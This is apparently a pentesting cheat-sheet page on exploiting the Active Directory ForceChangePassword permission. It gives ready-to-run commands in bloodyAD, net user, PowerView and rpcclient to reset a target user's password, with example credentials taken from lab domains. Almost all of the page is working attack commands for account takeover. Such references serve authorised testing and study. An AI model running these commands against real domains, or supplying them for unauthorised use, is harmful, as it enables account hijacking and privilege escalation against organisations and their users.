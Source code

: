 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# ForceChangePassword

## Exploitation

<figure><img src="../../../.gitbook/assets/forcechangepassword_bh.png" alt=""><figcaption><p>Figure 1: User wley has ForceChangePassword rights over user damundsen.</p></figcaption></figure>

{% tabs %}
{% tab title="bloodyAD" %}
{% code overflow="wrap" %}
```bash
bloodyAD -d rebound.htb -u oorend -p '1GR8t@$$4u' --host dc01.rebound.htb set password winrm_svc 'Password123!'
```
{% endcode %}
{% endtab %}

{% tab title="Native" %}
```powershell
net user <USER> <PASS> /domain
```
{% endtab %}

{% tab title="PowerView" %}
{% code overflow="wrap" %}
```powershell
# creating a PSCredential Object for the currently owned user
$SecPassword = ConvertTo-SecureString 'transporter@4' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $SecPassword)
# set the password we want for the target user by creating a SecureString Object
$damundsenPassword = ConvertTo-SecureString 'Pwn3d_by_ACLs!' -AsPlainText -Force
# import powerview
Import-Module .\PowerView.ps1
# change the user's password
Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $Cred -Verbose
```
{% endcode %}
{% endtab %}

{% tab title="RPC" %}
```bash
rpcclient -U <USER> <IP>
> setuserinfo2 <USER> 23 'ComplexP4ssw0rd!'
# OR
> chgpasswd3 <USER> <OLDPASS> <NEWPASS>
```
{% endtab %}
{% endtabs %}

## Resources

{% tabs %}
{% tab title="BH Edge" %}
{% embed url="https://bloodhound.readthedocs.io/en/latest/data-analysis/edges.html#forcechangepassword" %}
{% endtab %}
{% endtabs %}
